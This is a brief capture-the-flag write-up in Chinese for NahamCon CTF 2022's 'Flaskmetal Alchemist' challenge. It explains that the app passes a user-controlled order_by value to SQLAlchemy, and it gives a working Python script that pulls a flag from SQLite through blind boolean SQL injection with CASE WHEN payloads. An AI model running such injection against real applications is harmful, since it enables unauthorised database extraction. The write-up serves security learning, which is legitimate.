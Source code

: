 ```yaml
---
title: NahamCon CTF 2022
categories: 赛题wp
---
```


# Flaskmetal Alchemist



看一下依赖

![image-20220430132042077](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220430132042077.png)

看一下modules.py

![image-20220430132134214](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220430132134214.png)

flag在Flag中，看下主体逻辑

![image-20220430132216613](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220430132216613.png)

使用like与两个%包裹用户输入的数据，这里无法进行注入，往下看到有个order_by这里可控，确实存在注入

https://github.com/sqlalchemy/sqlalchemy/issues/4481#issuecomment-461204518

![image-20220430132404766](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220430132404766.png)



但是题目用的是sqlite，没有if，使用 **case  when ... then .. else .. end**

exp

```python
import requests
import time

s='abcdefghijklmnopqrstuvwxyz1234567890{}_-[]()!~QWERTYUIOPASDFGHJKLZXCVBNM'
url = "http://challenge.nahamcon.com:30678/"

flag=''
for i in range(1,40):
 for a in s:
    payload="case when(substr((select flag from Flag),{},1)='{}') then randomblob(1) else 2 end limit 1,1".format(i,a)
    data = {"search":"Li","order":payload}
    r=requests.post(url,data=data)
    if "Beryllium" not in r.text:
        flag+=a
        print(flag)
        break
    else:
        pass
```
